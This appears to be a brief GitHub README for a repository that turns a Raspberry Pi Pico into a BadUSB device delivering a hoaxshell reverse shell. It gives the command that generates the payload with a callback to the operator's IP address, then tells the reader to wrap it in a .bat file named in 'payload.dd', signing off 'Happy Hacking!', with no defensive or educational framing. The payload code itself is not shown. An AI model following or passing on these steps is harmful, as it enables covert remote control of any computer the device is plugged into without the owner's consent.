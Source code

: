 # Raspberry Pi Pico BAD USB Hoaxshell Payload  
Hello, in this repo i'll show you how to get a reverse shell using https://github.com/t3l3machus/hoaxshell with pi pico.

At first you'll  have to create a payload with hoaxshell.
`# python hoaxshell.py -s <YOUR_IP> `

![image](https://user-images.githubusercontent.com/82729808/200847245-1fc40f55-b63b-497f-bc29-9e4f3922bf2a.png)

Then you need to create a .bat file with that payload script and specify it in "payload.dd",
And you are ready to go!

Happy Hacking!

